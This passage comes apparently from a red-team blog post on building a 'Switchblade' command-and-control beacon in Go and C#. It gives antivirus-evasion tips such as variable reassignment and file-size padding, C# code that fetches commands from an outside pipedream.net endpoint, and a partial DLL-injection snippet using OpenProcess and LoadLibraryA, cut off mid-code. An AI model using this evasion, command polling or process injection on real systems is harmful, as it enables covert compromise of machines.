These low detection rates can primarily be attributed to how Golang is compiled, though I was able to knock Microsoft off the detection list by first
assigning the retrieved command to a new variable as opposed to passing it directly to be executed. One other point on Go, typically beacons generated
from it are very hard for AV to detect. This is due to them statically linking all the necessary libraries needed for compiling, which bumps the file
size up past what some AV's can handle scanning. This isn't a new tactic either, the [Commie malware family padded 64MB of data](https://unit42.paloaltonetworks.com/unit42-comnie-continues-target-organizations-east-asia/) 
to their compiled executables in order to avoid being scanned.

###Now how did it go with C#?

I originally wanted to use C++ for this actually, but encountered a number of issues that C# had already resolved.
The crux of the Switchblade communication design is GET and POST web requests and, surprisingly, C++ does not have an easy native
way to perform these. You have to import another library in order to do this. So not a big deal, go to GitHub, grab one, import it. Ah but the one 
you grabbed doesn't compile with the latest version of Visual Studio you have, so should you troubleshoot the compatability issue or use the 2019
version over the 2022 version? I'm sure more experienced developers more familiar with C++ are shouting at this with an easy solution, but in that moment
it was just very confusing to figure out. 

Using C# though was much easier comparitively. What took essentially one line in Python, took a few more in C#, but the end result was a very stable HTTP structure.
And this was all with builtin structures, no downloading 3rd party libraries from Github and installing them yourself and troubleshooting what version of VS they were
made for, it just worked.

```c#
using (client)
            {
                client.BaseAddress = new Uri("https://eoqqzdfuzmgq7gg.m.pipedream.net/");
                HttpResponseMessage response = client.GetAsync("").Result;
                response.EnsureSuccessStatusCode();
                string result = response.Content.ReadAsStringAsync().Result;
                Console.WriteLine("Result: " + result);
            }
```

Pretty nifty right? 

The original goal with using C++ was also to be able to do a bunch of advanced memory things, like injecting shellcode into running processes.
C#, by nature of being a C based language, has all these tools to do memory modification that you would expect with C++! You still have
things like CreateRemoteThread, WriteProcessMemory, and LoadLlibraryA.

For example, look at the [following code taken from Codingvision.net](https://codingvision.net/c-inject-a-dll-into-a-process-w-createremotethread):
```c#
public static int Main()
    {
        // the target process - I'm using a dummy process for this
        // if you don't have one, open Task Manager and choose wisely
        Process targetProcess = Process.GetProcessesByName("testApp")[0];

        // geting the handle of the process - with required privileges
        IntPtr procHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, targetProcess.Id);

        // searching for the address of LoadLibraryA and storing it in a pointer
        IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

        // name of the dll we want to inject
```